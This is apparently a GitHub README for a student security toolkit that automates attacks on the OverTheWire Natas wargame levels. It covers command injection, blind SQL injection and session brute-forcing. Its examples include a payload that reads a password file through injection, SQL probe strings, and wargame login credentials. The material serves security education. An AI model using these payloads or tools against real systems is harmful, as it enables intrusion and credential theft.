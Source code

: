 
# Security Engineering Toolkit: An Automated Vulnerability Prober

## Overview

This project is the primary output of a Security Engineering course, born from a deep-dive analysis into the OverTheWire Natas wargames. It has two main components: detailed writeups for each Natas challenge and a modular, Python-based security toolkit. The toolkit is designed to intelligently automate the discovery and exploitation of common web vulnerabilities, with each module directly inspired by a specific wargame level. The writeups provide a comprehensive analysis of the vulnerabilities, complementing the practical application of the toolkit.


## Features

-   **Intelligent OS Command Injection Prober:** Uses a response-diffing algorithm to precisely detect the output of injected commands, reducing false positives.
-   **Boolean-Based Blind SQLi Exfiltrator:** Automates the character-by-character exfiltration of data when only a "true" or "false" response is available from the server.
-   **Time-Based Blind SQLi Exfiltrator:** Exploits time-based side channels to exfiltrate data from completely "blind" injection points where no visible output is provided.
-   **Session ID Brute-Forcer:** A specialised tool to exploit weak session ID generation, capable of handling both simple numeric and hex-encoded session tokens.

## Prerequisites & Setup

The toolkit is designed to run on Python 3.9+ and requires the `requests` library.

1.  **Clone the repository:**
    ```bash
    git clone https://github.com/ScottyPoon/nata-probe.git
    cd nata-probe
    ```

2.  **Create and activate a virtual environment (recommended):**
    ```bash
    python3 -m venv venv
    source venv/bin/activate  # On CSE machine
    venv\Scripts\activate  # On Windows
    ```

3.  **Install the required dependencies:**
    ```bash
    pip install -r requirements.txt
    ```

## Usage

The toolkit is operated from `main.py` with a clear command structure.

### General Help

To see the main commands (`inject`, `session`), use the help flag:
```bash
python3 main.py -h
```
To see the options for a specific subcommand, like `inject`:
```bash
python3 main.py inject -h
```

---

### Module 1: OS Command Injection (`cmd`)

This module tests for OS command injection vulnerabilities. It intelligently compares a baseline response with the exploit response to confirm success.

**Example Command (for Natas 9):**
```bash
python3 main.py inject cmd http://natas9.natas.labs.overthewire.org/ \
    -u "natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t" \
    --param needle \
    --payload "; cat /etc/natas_webpass/natas10 #"
```

**Argument Breakdown:**
-   `inject cmd`: Specifies the command injection module.
-   `-u "user:pass"`: Sets the basic authentication credentials.
-   `--param needle`: The name of the vulnerable parameter in the request.
-   `--payload "..."`: The specific malicious payload to inject. The `#` is used to comment out the rest of the original command.

---

### Module 2: Boolean-Based Blind SQL Injection (`sqli-bool`)

This module automates the painstaking process of exfiltrating data when the only feedback is a "success" or "failure" message.

**Manual Analysis (The process the tool automates):**
The tool automates the process of checking each character. For example, to manually check if the password starts with 'a' and then 'h':
```sql
natas16" AND password LIKE BINARY "a%" -- -
natas16" AND password LIKE BINARY "h%" -- -
```

**Example Command (for Natas 15):**
```bash
python3 main.py inject sqli-bool http://natas15.natas.labs.overthewire.org/ \
    -u "natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx" \
    --data "username=natas16" \
    --param-to-fuzz username \
    --success-string "This user exists"
```

**Argument Breakdown:**
-   `inject sqli-bool`: Specifies the boolean-based SQLi module.
-   `--data "username=natas16"`: The POST data to send. The tool will inject into this data.
-   `--param-to-fuzz "username"`: The specific key within the `--data` dictionary to inject into.
-   `--success-string "..."`: **Crucial.** This is the exact text the tool looks for in the response to confirm a "true" condition.

---

### Module 3: Time-Based Blind SQL Injection (`sqli-time`)

This module is for the most difficult scenarios where there is no visible feedback. It infers data based on server response delays.

**Example Command (for Natas 17):**
```bash
python3 main.py inject sqli-time http://natas17.natas.labs.overthewire.org/ \
    -u "natas17:EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC" \
    --data "username=natas18" \
    --param-to-fuzz username \
    --sleep-time 3 \
    --max-len 32
```

**Argument Breakdown:**
-   `inject sqli-time`: Specifies the time-based SQLi module.
-   `--sleep-time 3`: The number of seconds to ask the database to `SLEEP()`. Choose a value high enough to be clearly distinguishable from normal network latency.
-   `--max-len 32`: The maximum password length to test for. The script first determines the exact length before exfiltrating characters.

---

### Module 4: Session ID Brute-Forcer (`session`)

This module exploits predictable session ID generation schemes.

**Example Command - Simple Integers (for Natas 18):**
```bash
python3 main.py session http://natas18.natas.labs.overthewire.org/ \
    -u "natas18:6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ" \
    --range "1:640:1" \
    --template "PHPSESSID=^PASS^" \
    --success-string "You are an admin"
```

**Example Command - Hex-Encoded (for Natas 19):**
```bash
python3 main.py session http://natas19.natas.labs.overthewire.org/ \
    -u "natas19:tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr" \
    --range "1:640:1" \
    --template "PHPSESSID=^PASS^" \
    --success-string "You are an admin" \
    --hex-encode
```

**Argument Breakdown:**
-   `session`: Specifies the session brute-force module.
-   `--range "1:640:1"`: The range to test, in `start:stop:step` format.
-   `--template "PHPSESSID=^PASS^"`: The cookie structure. `^PASS^` is the placeholder that will be replaced with the generated ID.
-   `--hex-encode`: An optional flag that enables the specific logic for Natas 19 (encodes `[ID]-admin` to hex).

